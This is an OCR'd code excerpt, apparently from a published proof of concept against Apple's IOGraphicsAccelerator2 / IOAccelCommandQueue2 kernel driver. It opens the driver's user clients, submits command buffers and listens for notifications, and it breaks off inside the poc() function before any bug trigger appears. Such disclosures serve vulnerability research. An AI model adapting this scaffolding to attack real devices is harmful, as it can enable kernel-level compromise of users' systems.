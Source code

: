 ```cpp
	kern_return_t kr = IOConnectCallAsyncMethod(IOAccelCommandQueue2,
			IOAccelCommandQueue2_set_notification_port_selector,
			notification_port,
			NULL, 0,
			NULL, 0,
			NULL, 0,
			NULL, NULL,
			NULL, NULL);
	assert(kr == KERN_SUCCESS);
}

static void
IOAccelCommandQueue2_submit_command_buffers(io_connect_t IOAccelCommandQueue2,
		const struct IOAccelCommandQueueSubmitArgs_Header *submit_args,
		size_t size) {
	kern_return_t kr = IOConnectCallMethod(IOAccelCommandQueue2,
				 IOAccelCommandQueue2_submit_command_buffers_selector,
				 NULL, 0,
				 submit_args, size,
				 NULL, NULL,
				 NULL, NULL);
	assert(kr == KERN_SUCCESS);
}

static void *
notification_recv_func(void *arg) {
	mach_port_t notification_port = (mach_port_t)(uintptr_t)arg;
	for (;;) {
		struct {
			mach_msg_header_t hdr;
			uint8_t data[0x4000];
		} msg = {};
		kern_return_t kr = mach_msg(&msg.hdr, MACH_RCV_MSG, 0,
				sizeof(msg), notification_port,
				MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
		if (kr == KERN_SUCCESS) {
			int error = *(int *)((uint8_t *)&msg + 0x94);
			uint64_t notify = *(uint64_t *)((uint8_t *)&msg + 0x64);
			printf("notification %llx: error = %d\n", notify, error);
		}
	}
}

void poc() {
	kern_return_t kr;

	io_service_t IOGraphicsAccelerator2 = IOServiceGetMatchingService(kIOMasterPortDefault, IOServiceMatching("IOGraphicsAccelerator2"));
	assert(IOGraphicsAccelerator2 != IO_OBJECT_NULL);
	io_connect_t IOAccelCommandQueue2 = MACH_PORT_NULL;
	IOServiceOpen(IOGraphicsAccelerator2, mach_task_self(), IOAccelCommandQueue2_type, &IOAccelCommandQueue2);
	assert(IOAccelCommandQueue2 != IO_OBJECT_NULL);
	io_connect_t IOAccelSharedUserClient2 = MACH_PORT_NULL;
	IOServiceOpen(IOGraphicsAccelerator2, mach_task_self(), IOAccelSharedUserClient2_type, &IOAccelSharedUserClient2);
	assert(IOAccelSharedUserClient2 != IO_OBJECT_NULL);

	kr = IOConnectAddClient(IOAccelCommandQueue2, IOAccelSharedUserClient2);
	assert(kr == KERN_SUCCESS);

	struct IOAccelDeviceShmemData *command_buffer_shmem = IOAccelSharedUserClient2_create_shmem(IOAccelSharedUserClient2, 0x4000);
```